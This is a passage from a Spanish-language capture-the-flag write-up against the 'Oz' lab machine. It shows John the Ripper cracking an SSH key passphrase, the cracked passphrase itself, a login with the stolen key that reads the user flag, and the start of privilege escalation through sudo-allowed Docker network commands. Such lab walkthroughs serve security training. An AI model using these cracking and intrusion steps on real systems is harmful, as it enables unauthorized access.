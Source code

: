 ```null
john -w:diccionario hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates left, minimum 4 needed for performance.
N0Pl4c3L1keH0me  (id_rsa)     
1g 0:00:00:00 DONE (2023-02-24 20:54) 100.0g/s 200.0p/s 200.0c/s 200.0C/s SuP3rS3cr3tP@ss..N0Pl4c3L1keH0me
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Puedo ver la primera flag

```null
ssh dorthi@10.10.10.96 -i id_rsa
The authenticity of host '10.10.10.96 (10.10.10.96)' can't be established.
ED25519 key fingerprint is SHA256:37SgwUj7e8rfiTDK02yNnl3Y7tCSO6+74EnY2XKsFNw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.96' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
dorthi@oz:~$ cat user.txt                                                                                                                                                                                       
6be5f83dc6cfaf3b50d579ac98544f6e
```

# Escalada

Tengo dos privilegios a nivel de sudoers

```null
dorthi@oz:~$ sudo -l
Matching Defaults entries for dorthi on oz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dorthi may run the following commands on oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls
```

Puedo listar e inspeccionar las redes de ```Docker```

```null
dorthi@oz:~$ sudo docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
795a5c0652c6        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local
```
